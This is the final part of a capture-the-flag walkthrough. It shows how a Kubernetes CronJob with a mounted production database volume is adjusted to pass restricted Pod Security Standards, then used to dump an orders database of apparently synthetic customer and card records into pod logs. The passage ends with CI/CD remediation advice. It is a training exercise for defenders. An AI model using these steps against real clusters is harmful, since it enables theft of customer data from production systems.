            image: ubuntu:latest
            command: ["cat","/db/orders.db"]
            imagePullPolicy: IfNotPresent
            securityContext:
              allowPrivilegeEscalation: false
            volumeMounts:
            - mountPath: /db
              name: dbpath
          imagePullSecrets:
          - name: prod-pull-creds
          volumes:
          - name: dbpath
            persistentVolumeClaim:
              claimName: prod-db
          nodeName: k8s-master-0
          restartPolicy: OnFailure
```

We can apply this cronjob to the cluster via the following command:

```bash
kubectl apply -f no-pss.yaml
Warning: would violate PodSecurity "restricted:latest": unrestricted capabilities (container "no-pss" must set securityContext.capabilities.drop=["ALL"]), runAsNonRoot != true (pod or container "no-pss" must set securityContext.runAsNonRoot=true), seccompProfile (pod or container "no-pss" must set securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost")
cronjob.batch/no-pss created
```

Interesting! It seems our cronjob has been blocked by Pod Security Standards (PSS). PSS is a framework that restrict privileges for different kinds of pods and users. There three different policies to broadly cover the security spectrum and in this instance the `restricted` policy has been applied. To understand the requirements, please review the following https://kubernetes.io/docs/concepts/security/pod-security-standards/#restricted.

We adjust our cronjob to meet the requirements of the `restricted` policy.

```bash
apiVersion: batch/v1
kind: CronJob
metadata:
  name: db-dump
  namespace: rescue-drop-prod
spec:
  schedule: "* * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          securityContext:
            seccompProfile:
              type: RuntimeDefault
          containers:
          - name: db-dump
            image: ubuntu:latest
            command: ["cat","/db/orders.db"]
            imagePullPolicy: IfNotPresent
            securityContext:
              allowPrivilegeEscalation: false
              capabilities:
                drop:
                - "ALL"
              runAsNonRoot: true
              runAsUser: 1000
              runAsGroup: 2000
            volumeMounts:
            - mountPath: /db
              name: dbpath
          imagePullSecrets:
          - name: prod-pull-creds
          volumes:
          - name: dbpath
            persistentVolumeClaim:
              claimName: prod-db
          nodeName: k8s-master-0
          restartPolicy: OnFailure
```

If we submit the cronjob again, we should see it successfully applied.

```bash
kubectl apply -f cronjob.yaml
cronjob.batch/db-dump created
```

Let's check the status of the cronjob.

```bash
kubectl get pods -n rescue-drop-prod
NAME                            READY   STATUS              RESTARTS        AGE
db-dump-28335558-754kk          0/1     Completed           0               107s
db-dump-28335559-qx2cz          0/1     Completed           0               47s
process-orders-28335557-q6mgc   0/1     Completed           0               2m47s
process-orders-28335558-w5r45   0/1     Completed           0               107s
process-orders-28335559-6jcf8   0/1     Completed           0               47s
```

Great we can see that our scheduled cronjob has run and completed. Let's check the logs of the pod.

```bash
kubectl logs db-dump-28335558-754kk -n rescue-drop-prod
���Z�tableordersordersCREATE TABLE orders (
                                id INT PRIMARY KEY,
                                fullname TEXT NOT NULL,
                                address BLOB NOT NULL,
                                email TEXT NOT NULL,
                                date TEXT NOT NULL,
                                credit_card INT NOT NULL,
                                cc_expire TEXT NOT NULL,
#�                              orders TEXT)+?indexsqlite_autoindex_orders_1orders
 �
  Q
   �
    N
�
U	�	7�Mp	'_-!Brendan Price75466 Bennett Drive
Rosalesstad, SD 38428bprice@gmail.com2022-07-15\g�[12/23gift cardv	#k/!!Leah Santos29156 Kayla Spurs Apt. 996
Matthewton, ID 33429lsantos@yahoo.com2022-11-01��*!�10/23shower gelz	+]5!)Gregory Sanchez8712 Nicole Locks
Lake Gregory, NJ 92447gsanchez@hotmail.com2022-12-04
                                                    �o��@10/30laptop chargerz	#u/!Eric Ibarra977 Courtney View Apt. 216
East Nicoletown, CT 14484eibarra@yahoo.com2022-05-14
Justin Phillips917 Jennifer Expressway Apt. 899     �&��w�05/23usb cable�%	+s3!k
Myerston)s/!#37548jphillips@yahoo.com2022-12-17��	�05/24flag_ctf{SEC_INCIDENT_CUSTOMER_DATA_DISCOVERED}|
             Melissa Miller4022 Cross Lakes Suite 699
Lake Hayleyton, OH 83861mmiller@gmail.com2022-08-11����01/28tooth brush~
                                                                        	!y1!'
                                                                                     Todd Logan7555 Elizabeth Prairie Suite 523
Ramirezland, GU 99076tlogan@hotmail.com2022-12-28d�$07/25birthday cardw
                                                                       	+e1!
Chelsea Flowers033 Reynolds Plain
New Rebeccaberg, WV 44015cflowers@yahoo.com2022-04-17;��'�03/28gift card}

!�-!	ory Leach6142 Richard Crescent Suite 675
South Robertport, ND 61005cleach@gmail.com2022-06-27v�
                                                      �n
                                                        08/31usb key�		-k5!Jeremiah Sanders10931 Ronald Centers
South Dustinberg, MI 61333jsanders@hotmail.com2022-06-08�8�(�01/25printer tonern%a1!Angela Evans67499 Phillips Lodge
Timothybury, LA 52657aevans@hotmail.com2022-04-15
                                                 ��;303/23bread`	%K1!Bailey AllenUnit 4718 Box 7214
DPO AA 18035ballen@hotmail.com2022-08-02����02/27milki	-K7!Patrick WilliamsUnit 4316 Box 1515
DPO AE 35697pwilliams@hotmail.com2022-08-077��12/25eggs�	#q5!)Lee Sweeney2647 Stacey Hill Suite 248
West Maryview, IN 68837lsweeney@hotmail.com2022-07-07o{C���08/29laptop chargerq	#s-!Julie Doyle5061 Romero Stream Suite 048
Patriciatown, OK 06245jdoyle@yahoo.com2022-04-18Ƃ)�11/30salt~	)u5!Steven Jackson5941 Lawson Manors Suite 931
Port Adamtown, IN 93822sjackson@hotmail.com2022-03-31�OB�12/29usb cabley		%[1!5Evelyn Perry996 Kelly Mountains
Ortizfort, FM 05892eperry@hotmail.com2022-12-305���v10/32mobile phone charger  'w3!!Mary Peterson8124 Maxwell Unions Apt. 603
New Abigailton, KS 00807mpeterson@yahoo.com2022-08-14[2�(�P11/29frying pan
�������������������
```

Fantastic! We have successfully dumped the contents of the database and obtained the second flag: `flag_ctf{SEC_INCIDENT_CUSTOMER_DATA_DISCOVERED}`.

Congratulations, you have solved Devious Developer Data Dump!

## Remediation and Security Considerations

The CTF scenario has been designed to provide how an adversary can leverage CI/CD infrastructure to gain access to a production environment. The following remediation plan can help secure your CI/CD infrastructure:

- Do not store secrets in git repositories, even if they are private. If you need to store secrets, use a secret manager such as Hashicorp Vault or AWS Secrets Manager
- If you do expose a secret in a git repository, make sure that any commits with the sensitive data are removed from the git history and rotate the secret immediately
- CI pipeline definition files should be reviewed and approved by a security team before being merged into the main branch. For this scenario, Cycode Labs [Raven](https://github.com/CycodeLabs/raven) could be used to scan CI workflows for security vulnerabilities.
- Depending on deployment method, it is quite normal for push deployments to have permissions to create workloads within a Kubernetes cluster. To reduce the impact of compromise, a GitOps deployment model, like that provided by [Argo CD](https://argo-cd.readthedocs.io/en/stable/) can used instead.
- The database in this instance was using a mounted volume which provided easy access for an adversary. A better model would be have a dedicated instance with specific IAM and database permissions.
- Be aware that even with this change, the cronjob would still need to have access to the database to perform the required processing so if an adversary could deploy a workload and escape onto the node, they could potentially leverage the same permissions. Fortunately, the namespace has PSS applied and service account associated with the CI runner has limited RBAC permissions, making this more difficult.
